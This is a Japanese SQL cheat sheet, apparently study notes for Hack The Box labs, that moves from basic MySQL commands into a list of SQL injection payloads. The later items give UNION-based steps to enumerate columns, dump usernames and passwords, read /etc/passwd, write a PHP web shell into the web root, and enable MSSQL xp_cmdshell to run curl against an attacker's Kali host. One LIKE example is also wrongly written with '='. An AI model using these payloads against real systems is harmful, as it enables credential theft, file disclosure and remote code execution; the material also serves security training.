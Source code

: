 # SQL
- SQLのcheat sheet。


## コマンド集
1. ユーザ名とパスワードを指定してDBへの認証を行う。このとき、-pの後ろに空白は必要ない。  
ただしここで-pによる認証を行うと.bash_historyファイルに平文でパスワードが保存される。なのでコマンドラインから直接入力するべきではない。
```.sql
mysql -u root -p<password>
```

2. ホストとポートを指定して認証を行う。
```.sql
mysql -u root -h docker.hackthebox.eu -P 3306 -p
```

3. hogeという名前のDBを新規で作成する。
```.sql
CREATE DATABASE hoge;
```

4. DBの一覧を表示する。
```.sql
SHOW DATABASES;
```

5. DBを指定してそのDBとの対話セッションに入る。
```.sql
USE hoge;
```

6. loginsという名前のテーブルを新規で作成する。  
各列、つまりカラムは、見出しの名前(id等)とデータの型を記載する。(INTとか)  
ここでは4つの列を持っており、VARCHAR(100)で、100文字の文字列という意味になる。
```.sql
CREATE TABLE logins (
    id INT,
    username VARCHAR(100),
    password VARCHAR(100),
    date_of_joining DATETIME
    );
```  
  
また、CREATE TABLEで新規でテーブルを作成するとき、プロパティを付与することで様々なオプションが可能。  
例として以下などがあり、NOT NULLをプロパティに含めると、必須のフィールドにNULLが含まれないようになったりする。
```.sql
CREATE TABLE logins (
    id INT,
    username VARCHAR(100) UNIQUE NOT NULL
    );
```

7. 現在のDBに格納されているテーブルを一覧表示する。
```.sql
SHOW TABLES;
```

8. テーブルを指定し、そのテーブルの構造とフィールド・データ型を一覧で表示する。
```.sql
DESCRIBE logins;
```

9. INSERT INTOステートメントによって、table_nameに新しいレコード(VALUES以降)を追加する。
```.sql
INSERT INTO table_name VALUES (1, 'admin', 'p@ssw0rd'...);
```

10. SELECTステートメントで、テーブルから全てのデータを取得する。
```.sql
SELECT * FROM table_name;
```

11. カラム(列のこと)を指定してtable_nameからデータを取得する。
```.sql
SELECT column1, column2 FROM table_name;
```

12. DROPステートメントで、サーバからloginsテーブルを削除する。
```.sql
DROP TABLE logins;
```

13. ALTERステートメントで、既存のloginsテーブルにnewColumnというカラムを追加する。
```.sql
ALTER TABLE logins ADD newColumn INT;
```

14. UPDATEステートメントで、特定の条件に基づいてテーブル内の特定のレコードを更新する。
```.sql
UPDATE table_name SET password = 'change_password' WHERE id > 1;
```

15. ORDER BYでpassword列を指定して並べ替える。
```.sql
SELECT * FROM table_name ORDER BY password;
```

16. WHEREで結果をフィルタする。
```.sql
SELECT * FROM table_name WHERE id > 1;
```

```.sql
SELECT * FROM table_name WHERE username = 'admin';
```

17. LIKEでWHEREによる条件指定をするときに、カラムに含まれる値を正規表現で指定できる。  
以下では、adminで始まる値あusernameカラムにあればそれを取得する。
```.sql
SELECT * FROM table_name WHERE username = 'admin%';
```

18. ()を使ってidのカラムが5のもののみを取得するSQLi
```.sql
') OR (id=5) -- 
```

19. UNION Injectionをするにあたり、ORDER BYによってテーブルのカラム数を特定する。  
ORDER BYの後ろの1は列宇数で、以下の場合だと1列目をソートしている。--の後ろの-は、--の後ろに空白を入れる必要があるのでそれを分かりやすくするために書いている。
```.sql
' ORDER BY 1 -- -
```

20. ORDER BYではなくUNIONによってUNION Injectionに使うカラム数を特定する。
```.sql
' UNION SELECT 1,2,3,4 -- -
```

21. UNIONでカラムが4つとわかった時、JUNKデータとして適当な数字ではなく、DBのバージョンとユーザ名を表示させる。
```.sql
' UNION SELECT 1,@@version,3,user() -- -
```

22. カラム名とテーブル名、データベース名をそれぞれ取得する。@@versionみたいなもの。
```.sql
' UNION SELECT 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users'-- -
```

23. ilfreightというDBのusersというテーブルからusenameとpasswordというカラムを取得する。  
別のDB内のテーブルからデータを取得できるのがUNIONのメリット。
```.sql
' UNION SELECT 1, username, password, 4 from ilfreight.users -- -
```

24. UNIONを使って、ユーザ名を取得できる。
```.sql
' UNION SELECT 1, user(), 3, 4-- -
```

25. CURRENT_USER()を使えば現在のユーザ名を取得できる。
```.sql
' UNION SELECT 1, CURRENT_USER(), 3, 4-- -
```

26. LOAD_FILEを使ってファイルを読み取る。権限があるときだけ可能。
```.sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

27. secure_file_privをチェックして書き込み権限があるかをチェックする。
```.sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

28. INTO OUTFILEで指定した場所にfrom usersの結果を書き込む。
```.sql
' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

29. 任意の値をOUTFILEで指定した場所に書き込む。
```.sql
SELECT 'hogehoge' INTO OUTFILE '/tmp/test.txt';
```

30. PHPのwebshellを書き込む。
```.sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

31. MSSQLでRCEを実行できるようにするための設定をWebからおこなってコマンド実行
```
 ' EXECUTE sp_configure "show advanced option", 1; RECONFIGURE; -- -
 ' EXECUTE sp_configure "xp_cmdshell", 1; RECONFIGURE; --
 ' EXECUTE xp_cmdshell "curl <Kali IP> -o C:\Users\Public\test" ; --
 ```